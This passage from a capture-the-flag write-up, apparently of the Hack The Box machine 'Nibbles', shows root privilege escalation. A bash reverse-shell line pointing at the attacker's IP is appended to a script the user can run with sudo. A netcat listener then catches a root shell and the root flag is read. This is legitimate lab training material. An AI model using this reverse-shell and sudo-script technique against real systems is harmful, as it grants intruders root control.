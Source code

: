 ~~~
$ echo "bash -c 'exec bash -i &>/dev/tcp/10.10.14.66/9999 <&1'" >>/home/nibbler/personal/stuff/monitor.sh
~~~
Now I have to start a netcat listener on port 9999, so the reverse shell could connect to my listener.
~~~
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 9999
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999

~~~
Since my netcat listener is lsitening on port 9999, I have to start the bash script with the following command: **sudo /home/nibbler/personal/stuff/monitor.sh**.
The shell will connect as root to my netcat listener.
~~~
$ sudo /home/nibbler/personal/stuff/monitor.sh
'unknown': I need something more specific.
/home/nibbler/personal/stuff/monitor.sh: 26: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 36: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 43: /home/nibbler/personal/stuff/monitor.sh: [[: not found
~~~
As soon as I started the Bash script with **sudo**, I have to check my netcat listener to see if the connection has been established.
~~~
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 9999
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.129.25.62.
Ncat: Connection from 10.129.25.62:45576.
bash: cannot set terminal process group (1349): Inappropriate ioctl for device
bash: no job control in this shell
root@Nibbles:/home/nibbler/personal/stuff# whoami;id;hostname;pwd
whoami;id;hostname;pwd
root
uid=0(root) gid=0(root) groups=0(root)
Nibbles
/home/nibbler/personal/stuff
root@Nibbles:/home/nibbler/personal/stuff# 

~~~
The connection to my netcat listerner has been established. After running the **whoami;id;hostname;pwd** oneliner, it's clear I am the root user on the target. 
Time to capture the root flag!
~~~
root@Nibbles:/home/nibbler/personal/stuff# cd /root
cd /root
root@Nibbles:~# ls
ls
root.txt
root@Nibbles:~# cat root.txt
cat root.txt
< --- ROOT FLAG --- >
root@Nibbles:~# 
~~~
The root flag has been captured, time to shutdown Nibbles on HTB.